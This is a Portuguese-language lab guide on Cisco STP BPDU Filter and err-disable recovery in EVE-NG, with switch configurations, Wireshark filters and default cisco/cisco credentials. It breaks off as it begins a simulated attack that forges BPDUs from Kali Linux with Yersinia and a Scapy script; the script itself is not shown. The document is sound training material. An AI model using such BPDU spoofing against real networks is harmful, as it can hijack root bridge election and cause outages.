# 🧪 Arquivo 12 — STP na Prática: BPDU Filter e Recuperação Automática (Err-disable)

---

## 📌 Sumário

- [🧪 Arquivo 12 — STP na Prática: BPDU Filter e Recuperação Automática (Err-disable)](#-arquivo-12--stp-na-prática-bpdu-filter-e-recuperação-automática-err-disable)
  - [📌 Sumário](#-sumário)
  - [📘 Visão Geral](#-visão-geral)
  - [🎯 Objetivo do Documento](#-objetivo-do-documento)
  - [🏗️ Contexto: Por Que Este Laboratório Importa no Mercado](#️-contexto-por-que-este-laboratório-importa-no-mercado)
  - [📖 Glossário Técnico](#-glossário-técnico)
  - [🖥️ Ambiente de Laboratório (Montagem)](#️-ambiente-de-laboratório-montagem)
    - [Equipamentos](#equipamentos)
    - [Topologia](#topologia)
    - [Endereçamento e VLANs](#endereçamento-e-vlans)
  - [⚙️ Configuração Base (Pré-requisito)](#️-configuração-base-pré-requisito)
    - [SW-CORE](#sw-core)
    - [SWACC01](#swacc01)
    - [SWACC02](#swacc02)
    - [Kali Linux](#kali-linux)
    - [ROOT BRIDGE](#root-bridge)
    - [✅ Resultado esperado](#-resultado-esperado)
    - [🔍 Cenário Inicial](#-cenário-inicial)
  - [🧠 Antes de Começar](#-antes-de-começar)
  - [🔎 O que é BPDU Filter?](#-o-que-é-bpdu-filter)
    - [BPDU Guard](#bpdu-guard)
    - [BPDU Filter](#bpdu-filter)
  - [🧪BPDU Filter: O Perigo da "Ignorância"](#bpdu-filter-o-perigo-da-ignorância)
    - [Parte 1A — Modo Global (Seguro)](#parte-1a--modo-global-seguro)
    - [Parte 1B — Modo por Interface (Perigoso)](#parte-1b--modo-por-interface-perigoso)
    - [🚩 Parte 1C — Capturando o Comportamento Normal do STP](#-parte-1c--capturando-o-comportamento-normal-do-stp)
  - [🧠 Qual modo do BPDU Filter será utilizado?](#-qual-modo-do-bpdu-filter-será-utilizado)
    - [✔ BPDU Filter por Interface (`bpdufilter enable`)](#-bpdu-filter-por-interface-bpdufilter-enable)
  - [🏗️ Onde configurar?](#️-onde-configurar)
  - [🔬 Captura no Wireshark — Estado Normal](#-captura-no-wireshark--estado-normal)
    - [📍 Onde capturar?](#-onde-capturar)
  - [🎯 Filtro Wireshark](#-filtro-wireshark)
    - [👀 O que devemos observar?](#-o-que-devemos-observar)
    - [✅ Comportamento esperado antes do problema](#-comportamento-esperado-antes-do-problema)
    - [🔎 Verificações importantes](#-verificações-importantes)
    - [🧠 O que isso demonstra?](#-o-que-isso-demonstra)
    - [Captura em SWACC2 G0/2](#captura-em-swacc2-g02)
    - [Configurando o BPDUFILTER nas portas](#configurando-o-bpdufilter-nas-portas)
    - [🚩 Parte 1D — Simulando o Ataque com Kali Linux (Cenário de Falha)](#-parte-1d--simulando-o-ataque-com-kali-linux-cenário-de-falha)
    - [👀 O que observamos inicialmente?](#-o-que-observamos-inicialmente)
    - [🧪 Iniciando o Ataque com Kali Linux](#-iniciando-o-ataque-com-kali-linux)
  - [⚠️ Limitações do Yersinia em ambientes virtualizados](#️-limitações-do-yersinia-em-ambientes-virtualizados)
  - [🧠 Mudança de abordagem](#-mudança-de-abordagem)
  - [🧪 Executando o ataque com Python + Scapy](#-executando-o-ataque-com-python--scapy)
  - [📍 Onde inserir a imagem do ambiente Kali](#-onde-inserir-a-imagem-do-ambiente-kali)
  - [🧠 O que o script faz?](#-o-que-o-script-faz)
  - [📝 Script ataque\_l2.py](#-script-ataque_l2py)
  - [📜 Script ataque\_l2.py comentado](#-script-ataque_l2py-comentado)
  - [📜⚙️ Executando o script](#️-executando-o-script)
    - [BPDU Filter por interface](#bpdu-filter-por-interface)
    - [BPDUFILTER em modo modo global](#bpdufilter-em-modo-modo-global)
    - [🧠 COMO O MODO GLOBAL FUNCIONA](#-como-o-modo-global-funciona)
    - [🚩 Parte 1C — Criando Redundância e Simulando um Loop de Camada 2](#-parte-1c--criando-redundância-e-simulando-um-loop-de-camada-2)
    - [🔌 Adicionando o segundo link](#-adicionando-o-segundo-link)
  - [✅ Comportamento esperado ANTES do BPDU Filter](#-comportamento-esperado-antes-do-bpdu-filter)
  - [🔍 O que observar no Wireshark](#-o-que-observar-no-wireshark)
  - [⚠️ Habilitando BPDU Filter](#️-habilitando-bpdu-filter)
  - [🔥 Simulando o Loop](#-simulando-o-loop)
  - [🔍 Observe os impactos](#-observe-os-impactos)
    - [Verificar STP](#verificar-stp)
    - [Verificar MAC Flapping](#verificar-mac-flapping)
    - [Verificar utilização de CPU](#verificar-utilização-de-cpu)
    - [Verificar aumento de broadcasts](#verificar-aumento-de-broadcasts)
  - [🧪 Laboratório 2 — Err-disable Recovery: A Autodefesa Automatizada](#-laboratório-2--err-disable-recovery-a-autodefesa-automatizada)
    - [Parte 2A — Provocando o Err-disable com BPDU Guard](#parte-2a--provocando-o-err-disable-com-bpdu-guard)
    - [Parte 2B — Configurando o Err-disable Recovery](#parte-2b--configurando-o-err-disable-recovery)
    - [Parte 2C — Validando o Ciclo Completo](#parte-2c--validando-o-ciclo-completo)
  - [🔍 O que está acontecendo?](#-o-que-está-acontecendo)
  - [⚠️ Impacto em ambientes reais](#️-impacto-em-ambientes-reais)
  - [🧠 Consideração importante](#-consideração-importante)
  - [✅ Retornando ao estado estável](#-retornando-ao-estado-estável)
  - [🔍 Verificações finais](#-verificações-finais)
  - [🦈 Wireshark: Capturando e Analisando BPDUs](#-wireshark-capturando-e-analisando-bpdus)
    - [Como Iniciar a Captura no EVE-NG](#como-iniciar-a-captura-no-eve-ng)
    - [Filtros Wireshark para Este Laboratório](#filtros-wireshark-para-este-laboratório)
    - [O que Analisar em Cada BPDU Capturado](#o-que-analisar-em-cada-bpdu-capturado)
  - [🔬 Verificação e Troubleshooting](#-verificação-e-troubleshooting)
    - [Comandos Essenciais](#comandos-essenciais)
    - [Debug (Usar com Cautela em Produção)](#debug-usar-com-cautela-em-produção)
  - [📊 Comparativo: BPDU Guard vs BPDU Filter](#-comparativo-bpdu-guard-vs-bpdu-filter)
  - [⚠️ Considerações para Ambiente de Produção](#️-considerações-para-ambiente-de-produção)
  - [🏁 O que Aprendemos com Este Laboratório](#-o-que-aprendemos-com-este-laboratório)
  - [🏆 Habilidades Adquiridas](#-habilidades-adquiridas)

---

## 📘 Visão Geral

Nesta revisão, vamos explorar dois mecanismos importantes do ecossistema do Spanning Tree Protocol (STP) em ambientes Cisco:

- **BPDU Filter**
- **Err-disable Recovery**

O objetivo é entender como essas funcionalidades afetam o comportamento da rede em cenários reais, principalmente quando há:

- portas configuradas incorretamente
- switches não autorizados
- loops acidentais
- falhas operacionais
- eventos de segurança em camada 2

Diferente dos laboratórios anteriores, aqui o foco será o comportamento entre switches, permitindo observar de forma mais clara a interação do STP no plano de controle.

---

## 🎯 Objetivo do Documento

Ao final deste laboratório, você será capaz de:

- Entender o funcionamento do BPDU Filter
- Diferenciar o comportamento global e por interface do BPDU Filter
- Validar o impacto da filtragem de BPDUs na topologia
- Compreender o funcionamento do estado *err-disable*
- Configurar recuperação automática (*err-disable recovery*)
- Correlacionar eventos do STP com logs e estados operacionais
- Executar troubleshooting básico em cenários de instabilidade STP

Mais do que decorar comandos, o objetivo aqui é compreender o impacto operacional dessas funcionalidades em ambientes corporativos reais.

---

## 🏗️ Contexto: Por Que Este Laboratório Importa no Mercado

> **Analogia para contextualização:** Imagine que o STP é o sistema de semáforos de uma cidade. O BPDU Guard é um guarda de trânsito que fecha a rua imediatamente se um carro entrar na contramão. O BPDU Filter é uma venda nos olhos do guarda — ele simplesmente não vê o carro, e o acidente acontece.

No dia a dia de um Analista de Redes N2/N3, a decisão entre Guard e Filter tem consequências diretas no SLA da operação:

- **BPDU Guard** → Segurança máxima. Porta entra em *err-disabled* ao receber qualquer BPDU. Ideal para portas de acesso conectadas a dispositivos finais (impressoras, computadores, câmeras IP).
- **BPDU Filter** → Silencia o STP naquela porta. Correto quando usado globalmente com PortFast, arriscado quando aplicado manualmente por interface sem controle rígido de mudança.

O **Err-disable Recovery** resolve o maior gargalo operacional do suporte: o chamado de "porta morta em site remoto". Em vez de acionar um técnico para logar no switch e executar `shutdown / no shutdown`, o próprio IOS verifica se a causa cessou e reativa a porta automaticamente — reduzindo o **MTTR (Mean Time To Repair)** e o custo de deslocamento.

Este é um tema recorrente em entrevistas para posições de **Analista de Redes Sênior**, **Engenheiro de Infraestrutura** e **NOC N3**, pois exige que o profissional entenda não apenas *o que configurar*, mas *os riscos operacionais de cada escolha*.

Em ambientes corporativos, mecanismos como BPDU Guard e BPDU Filter costumam ser utilizados para proteger a camada 2 contra conexões indevidas e alterações inesperadas na topologia.

Entretanto, quando aplicados incorretamente, esses mecanismos também podem causar:

- loops de camada 2
- perda de redundância
- portas err-disabled
- instabilidade do STP
- interrupções de tráfego

Por isso, compreender o comportamento dessas funcionalidades é essencial para troubleshooting e operações em nível CCNP.

---

## 📖 Glossário Técnico
  
| Termo               | Definição Técnica                                                                       | Impacto Prático                                              |
| :---                | :---                                                                                    | :---                                                         |
| **BPDU (Bridge Protocol Data Unit)** | Quadro de controle trocado entre switches para manter a topologia STP. | Sem BPDUs, o STP não converge e loops podem se formar.       |
| **BPDU Filter**     | Impede o envio e/ou recepção de BPDUs em uma porta. Comportamento varia entre modo global e por interface. | Modo global é seguro; modo por interface pode causar loop permanente. |
| **BPDU Guard**      | Coloca a porta em *err-disabled* ao receber qualquer BPDU.                       | Proteção ativa contra switches não autorizados em portas de acesso. |
| **Err-disable**     | Estado em que o IOS desativa uma porta após detectar uma violação (BPDU Guard, port-security, UDLD, etc.). | Porta fica `err-disabled` e não passa tráfego até ser reativada. |
| **Err-disable Recovery** | Mecanismo automático que reativa portas em *err-disabled* após um intervalo configurável. | Reduz MTTR e elimina intervenção manual em falhas transitórias. |
| **PortFast**        | Faz a porta pular os estados Listening e Learning, indo direto para Forwarding. | Essencial para portas de dispositivos finais; nunca deve ser habilitado em uplinks. |
| **Layer 2 Loop**    | Circuito fechado de quadros de broadcast sem TTL para interromper a circulação.         | Satura CPU de switches e derruba toda a VLAN em segundos.    |
| **MTTR**            | Mean Time To Repair — tempo médio de recuperação de uma falha.                       | Métrica de SLA diretamente impactada pelo Err-disable Recovery. |
| **Broadcast Storm** | Tempestade de broadcast gerada por um loop L2.                                          | Pode derrubar centenas de hosts simultaneamente.             |
| **TCN (Topology Change Notification)** | BPDU especial enviado quando a topologia STP muda.                | Visível no Wireshark durante eventos de loop ou reconvergência. |

---

## 🖥️ Ambiente de Laboratório (Montagem)

Para este laboratório, você precisará de **4 equipamentos** no EVE-NG, representando o modelo clássico de acesso hierárquico (Access → Distribution/Core).

### Equipamentos

| Equipamento    | Função no Lab                                         | Papel no STP                       |
| :---           | :---                                                  | :---                               |
| **SW_CORE**    | Simula o núcleo/distribuição da rede                  | Root Bridge (prioridade 4096)      |
| **SW_ACC01**   | Switch de borda onde aplicamos as proteções           | Non-Root Bridge                    |
| **SW_ACC02**   | Switch de borda onde aplicamos as proteções           | Non-Root Bridge                    |
| **LINUX**      | Simula um switch conectado indevidamente pelo usuário | Gerador de BPDU / causador do loop |
| **VPC-01**     | Dispositivo final para validar conectividade          | Host final                         |
| **SRV01**      | Simula um Servidor posicionado na camada CORE         | Host final                         |
  
### Topologia

  
  
> **Nota EVE-NG:** Recomenda-se usar a imagem `vios_l2-adventerprisek9-m.ssa.high_iron_20200929.qcow2` (IOSv L2) para os switches. Para a VPC, o appliance nativo do EVE-NG é suficiente. Para a captura com Wireshark, utilize a integração nativa do EVE-NG clicando com o botão direito no link e selecionando **"Start Capture"** — isso abrirá o Wireshark diretamente no link selecionado.

### Endereçamento e VLANs

| Equipamento | Interface   | VLAN  | IP (Gerência) |
| :---        | :---        | :---  | :---          |
| SW_CORE     | VLAN 1 SVI  | 1     | 10.0.0.1/24   |
| SWACC01     | VLAN 1 SVI  | 1     | 10.0.0.2/24   |
| SWACC02     | VLAN 1 SVI  | 1     | 10.0.0.3/24   |
| SRV01       | eth0        | 1     | 10.0.0.100/24 |
| VPC-01      | eth0        | 1     | 10.0.0.101/24 |
| LINUX       | eth0        | 1     | 10.0.0.102/24 |

**OBSERVAÇÂO:** as credências para acesso aos switches são, **usuário: cisco, password: cisco**  
  
---

## ⚙️ Configuração Base (Pré-requisito)

Execute a configuração base em todos os switches antes de iniciar os laboratórios. Sem essa base, os resultados podem ser inconsistentes.

### SW-CORE

```ios
hostname SW_CORE
!
boot-start-marker
boot-end-marker
!
!
!
username cisco privilege 15 secret 5 $1$w8Vu$0WI/O0PNugWOhb/WXIApM.
!
spanning-tree mode pvst
spanning-tree extend system-id
!
interface Vlan1
 ip address 10.0.0.1 255.255.255.0
 no shutdown
!
line con 0
line aux 0
line vty 0 4
 exec-timeout 0 0
 login local
 transport input ssh
!
!
end

SW_CORE#
```

### SWACC01

```ios
hostname SWACC01
!
username cisco privilege 15 secret 5 $1$qh5D$f6OxiYYUo0oQdg6fPlSJ0/
!
spanning-tree mode pvst
spanning-tree extend system-id
!
interface Vlan1
 ip address 10.0.0.2 255.255.255.0
 no shutdown
!
line con 0
line aux 0
line vty 0 4
 exec-timeout 0 0
 login local
 transport input ssh
```

### SWACC02

```ios
hostname SWACC02
!
username cisco privilege 15 secret 5 $1$rOOC$ZnYbdwoeGZV74yk3RcrC00
!
spanning-tree mode pvst
spanning-tree extend system-id
!
interface Vlan1
 ip address 10.0.0.3 255.255.255.0
 no shutdown
!
line aux 0
line vty 0 4
 exec-timeout 0 0
 login local
 transport input ssh
```

### Kali Linux
  
No Kali Linux, o IP é configurado editando o arquivo de interfaces de rede. Abra o terminal e execute:
  
> sudo nano /etc/network/interfaces

Adicione ou edite o bloco correspondente à interface eth0:

```bash  
allow-hotplug eth0
iface eth0 inet static
    address 192.168.0.11
    netmask 255.255.255.0
    gateway 192.168.0.100
    dns-nameservers 1.1.1.1 8.8.8.8
```

Salve o arquivo (Ctrl+O, Enter, Ctrl+X) e aplique as configurações:
  
> sudo ifdown eth0 && sudo ifup eth0

Confirme que o IP foi aplicado corretamente:
  
> ip addr show eth0


### ROOT BRIDGE

Para garantir que o switch que está na camada core melhor posicionado se torne o **ROOT BRIDGE**, vamos acessar o switch **SW_CORE** e configurar a prioridade da **vlan 1**. Caso esse switch perca a eleição, esse comando garante que esse switch seja o ROOT.

> spanning-tree vlan 1 priority 4096

### ✅ Resultado esperado

> show spanning-tree
  
- SW_CORE aparecendo como Root
  
```ios
SW_CORE#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    4097
             Address     5000.0001.0000
             This bridge is the root
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    4097   (priority 4096 sys-id-ext 1)
             Address     5000.0001.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  300 sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Desg FWD 4         128.2    P2p
Gi0/2               Desg FWD 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Desg FWD 4         128.6    P2p
Gi1/2               Desg FWD 4         128.7    P2p
Gi1/3               Desg FWD 4         128.8    P2p

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------

Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SW_CORE#

```

- Topologia sem loops
- STP convergido

---

### 🔍 Cenário Inicial

Neste laboratório:

- SW1 será a Root Bridge
- SW2 e SW3 formarão redundância
- O STP inicialmente estará convergido corretamente
- Em seguida, iremos modificar o comportamento do STP utilizando BPDU Filter
  
**O objetivo será observar:**  

- alteração do comportamento do STP
- perda de proteção da topologia
- riscos operacionais
- eventos de recuperação automática

## 🧠 Antes de Começar

## 🔎 O que é BPDU Filter?

O BPDU Filter impede o envio e/ou processamento de BPDUs em determinadas interfaces.
  
Na prática, isso faz com que uma porta deixe de participar efetivamente do STP.
  
Embora possa parecer útil em alguns cenários específicos, o uso incorreto do BPDU Filter pode criar loops perigosos na camada 2.
  
**⚠️ Diferença Importante**  

### BPDU Guard

- Desabilita a interface ao receber BPDU
- Foco em proteção

### BPDU Filter

- Ignora ou deixa de enviar BPDUs
-Foco em ocultar a participação da porta no STP

> 👉 O risco do BPDU Filter é muito maior quando utilizado incorretamente.

---

## 🧪BPDU Filter: O Perigo da "Ignorância"

O BPDU Filter é chamado de "ignorante" porque ele **para de falar e de ouvir o Spanning Tree** — ele não processa, não envia e não reage a BPDUs. O resultado depende criticamente de *como* ele é aplicado.

---

### Parte 1A — Modo Global (Seguro)

O modo global ativa o BPDU Filter automaticamente em **todas as portas com PortFast habilitado**.
  
**Comportamento:** A porta para de *enviar* BPDUs. Porém, se *receber* um BPDU, o filtro é desativado automaticamente naquela porta e o STP volta a operar normalmente.

> SW-ACESSO(config)# spanning-tree portfast bpdufilter default

**Verificação:**

> SW-ACESSO# show spanning-tree detail | include portfast|filter

Saída esperada na interface e0/1:
  
> The port is in the portfast mode by default
> Bpdu filter is enabled on the interface
>
> **Por que é seguro?** Porque o switch ainda "ouve". Se um switch for conectado e enviar BPDUs, o filtro cai e o STP assume o controle antes que um loop se forme.

---
  
### Parte 1B — Modo por Interface (Perigoso)
  
A configuração direta em interface desativa o envio **e** a recepção de BPDUs de forma permanente. O switch não reativa o STP mesmo recebendo BPDUs.

**EXEMPLO DE CONFIGURAÇÃO*  
  
```ios
SW_ACESSO(config)# interface e0/2
SW-ACESSO(config-if)# switchport mode access
SW-ACESSO(config-if)# switchport access vlan 10
SW-ACESSO(config-if)# spanning-tree portfast
SW-ACESSO(config-if)# spanning-tree bpdufilter enable
SW-ACESSO(config-if)# no shutdown

**Verificação antes de conectar o SW-INTRUSO:**
SW-ACESSO# show spanning-tree interface e0/2 detail

Saída esperada:
Bpdufilter is explicitly enabled, the port will not send BPDUs
and will ignore incoming BPDUs
```

### 🚩 Parte 1C — Capturando o Comportamento Normal do STP

Antes de provocar a falha, vamos observar o comportamento correto do protocolo em operação normal.

O objetivo aqui é entender:

- como os switches trocam BPDUs
- qual switch é a Root Bridge
- qual porta está em blocking
- como o STP mantém a topologia livre de loops

---

## 🧠 Qual modo do BPDU Filter será utilizado?

Neste laboratório, iremos utilizar:

### ✔ BPDU Filter por Interface (`bpdufilter enable`)

Motivo:

- é o modo mais perigoso
- ignora permanentemente os BPDUs
- permite demonstrar loops reais
- mostra claramente o impacto operacional
- possui maior valor didático para troubleshooting nível CCNP

👉 O modo global já foi explicado anteriormente apenas para fins de comparação e entendimento conceitual.

---

## 🏗️ Onde configurar?

A configuração será aplicada em:

- SWACC2
- Interface G1/1 - Porta Ligada ao **Kali Linux**
- Interface G1/2 - Porta Ligada ao **SW_CONTROLE**

**OBSERVAÇÃO:**

> Primeiro vamos inserir um Switch de controle na porta G1/2 de SWACC2 para analisarmos o comportamento natural com um switch  
> Depois vamos realizar a comparação com a porta G1/1 de SWACC2 onde o Kali linux está conectado simulando um ataque

---

## 🔬 Captura no Wireshark — Estado Normal

Antes do ataque, iremos capturar o funcionamento normal do STP.

### 📍 Onde capturar?

Realize a captura no link entre:

- SWACC1 e SWACC2

Preferencialmente na interface:

- SW2 G0/2
ou
- SW3 G0/2

> 👉 Esse é o melhor ponto porque ali circulam as BPDUs responsáveis pela convergência da topologia.

---

## 🎯 Filtro Wireshark

Utilize o filtro:

```wireshark
stp
```

Ou, de forma mais específica:

```wireshark
llc.dsap == 0x42
```

### 👀 O que devemos observar?

Durante a captura normal do STP, observe:

- envio periódico de BPDUs
- Hello Time de 2 segundos
- identificação da Root Bridge
- Root Path Cost
- Bridge ID
- Port ID
- portas em estado blocking/forwarding

### ✅ Comportamento esperado antes do problema

Neste momento:

- SW_CORE deve ser a Root Bridge
- uma das portas redundantes entre SW2 e SW3 deverá estar em blocking
- a topologia deve permanecer estável
- as BPDUs devem circular normalmente
- não deve existir loop de camada 2

### 🔎 Verificações importantes

> SW1# show spanning-tree
> SW2# show spanning-tree
> SW3# show spanning-tree

### 🧠 O que isso demonstra?

O STP está funcionando corretamente porque:

- os switches estão trocando BPDUs
- o loop físico foi convertido em uma topologia lógica sem loop
- existe controle do plano de camada 2

> 👉 Esse será nosso ponto de comparação antes da falha causada pelo BPDU Filter.

### Captura em SWACC2 G0/2

Filtro **stp**  
  


Filtro **llc.dsap == 0x42**  



### Configurando o BPDUFILTER nas portas
  
Agora vamos acessar o switch **SWACC2** e vamos ativar o BPDU FILTER nas portas **G1/1 e G1/2**  

```ios
SWACC02#conf t
Enter configuration commands, one per line.  End with CNTL/Z.
SWACC02(config)#int range G1/1-2
SWACC02(config-if-range)#switcport
SWACC02(config-if-range)#switchport mode access
SWACC02(config-if-range)#switchport access vlan 1
SWACC02(config-if-range)#spanning-tree portfast
%Warning: portfast should only be enabled on ports connected to a single
 host. Connecting hubs, concentrators, switches, bridges, etc... to this
 interface  when portfast is enabled, can cause temporary bridging loops.
 Use with CAUTION

%Portfast will be configured in 2 interfaces due to the range command
 but will only have effect when the interfaces are in a non-trunking mode.
SWACC02(config-if-range)#spanning-tree bpdufilter enable
```

**OBSERVAÇÃO:** depois que configuramos o portfast e o bpdufilter é interessante de se analisar o spanning three. Agora as portas são classificadas como **edge ports**, ou seja, portas onde se devem ligar dispositivos finais.

```ios
SWACC02#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    4097
             Address     5000.0001.0000
             Cost        4
             Port        2 (GigabitEthernet0/1)
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    32769  (priority 32768 sys-id-ext 1)
             Address     5000.0003.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  300 sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Root FWD 4         128.2    P2p
Gi0/2               Altn BLK 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Desg FWD 4         128.6    P2p Edge
Gi1/2               Desg FWD 4         128.7    P2p Edge
Gi1/3               Desg FWD 4         128.8    P2p
Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SWACC02#
```

### 🚩 Parte 1D — Simulando o Ataque com Kali Linux (Cenário de Falha)

Agora iremos acessar o Kali Linux para simular um comportamento malicioso real em camada 2.
  
Isso torna o laboratório muito mais próximo de cenários encontrados em ambientes corporativos e operações de segurança ofensiva.
  
---

### 👀 O que observamos inicialmente?
  
Na captura normal do STP foi possível identificar:
  
- envio periódico de BPDUs
- Hello Time de 2 segundos
- Root Bridge anunciando prioridade 4096
- Root Path Cost
- Bridge ID
- funcionamento correto da convergência
  
Além disso:
  
- o STP estava controlando corretamente a topologia
- não havia loop de camada 2
- a rede encontrava-se estável

### 🧪 Iniciando o Ataque com Kali Linux

No Kali Linux, inicialmente foi utilizada a ferramenta:

> yersinia

O Yersinia é uma ferramenta clássica utilizada para testes e ataques em protocolos de camada 2, incluindo:

- STP
- DTP
- CDP
- VTP
- DHCP
- HSRP

Seu objetivo neste laboratório seria gerar BPDUs falsas para tentar manipular a eleição da Root Bridge.

---

## ⚠️ Limitações do Yersinia em ambientes virtualizados

Durante os testes práticos deste laboratório no EVE-NG, o Yersinia apresentou algumas limitações operacionais, incluindo:

- instabilidade no modo gráfico
- dificuldades no modo interativo
- problemas no envio de BPDUs
- travamentos ocasionais
- comportamento inconsistente em ambientes virtualizados

Além disso, determinadas versões do Kali Linux não expõem facilmente opções avançadas de manipulação do protocolo STP na interface gráfica da ferramenta.

👉 Esse comportamento é relativamente comum em ambientes virtualizados e não invalida o conceito do laboratório.

---

## 🧠 Mudança de abordagem

Por esse motivo, optou-se por utilizar uma abordagem mais controlada e reproduzível utilizando Python + Scapy.

Essa abordagem possui várias vantagens:

- maior estabilidade
- controle total dos campos do BPDU
- facilidade de automação
- melhor integração com troubleshooting
- maior valor didático para automação de redes

Além disso, utilizar Scapy aproxima o laboratório de cenários reais de engenharia de protocolos e automação em nível CCNP.

---

## 🧪 Executando o ataque com Python + Scapy

O ataque será executado através de um script Python responsável por gerar BPDUs falsas manualmente.

---

## 📍 Onde inserir a imagem do ambiente Kali

Inserir aqui:

